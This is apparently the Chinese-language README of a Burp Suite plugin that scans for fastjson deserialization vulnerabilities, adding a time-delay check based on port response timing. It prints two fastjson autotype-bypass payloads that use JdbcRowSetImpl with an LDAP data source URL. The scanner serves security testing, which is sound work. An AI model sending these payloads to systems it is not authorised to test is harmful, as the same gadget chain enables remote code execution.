 ## 前言

学习了pmiaowu的fastjson扫描插件，其主要是两种检测方式

一种是利用c3p0回显探测

一种是利用dnslog探测

想了想如果不存在回显且对方不出网的情况下，就扫描不到了

所以添加了一种延迟探测方式，当回显以及dnslog无法探测出时采用延迟探测方式

根据访问开放端口与关闭端口的响应时间不同来判断是否存在漏洞点

fastjson 1.2.9-1.2.47

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:808/badNameClass",
        "autoCommit":true
    }
}
```

还有一种通用payload,可用于parseObject的场景，但是测试了一下发现上面这个也行

```json
{"@type":"com.alibaba.fastjson.JSONObject",{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:8088/badNameClass",
        "autoCommit":true
    }
}}""}
```

https://mp.weixin.qq.com/s/5mO1L5o8j_m6RYM6nO-pAA

## 安装

 ![image-20220923205653176](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923205653176.png)

将target\BurpFastJsonScan下jar包导入

## 效果展示

![image-20220923212341248](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212341248.png)

![image-20220923212355278](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212355278.png)

![image-20220923212404351](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212404351.png)

![image-20220923212444871](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212444871.png)
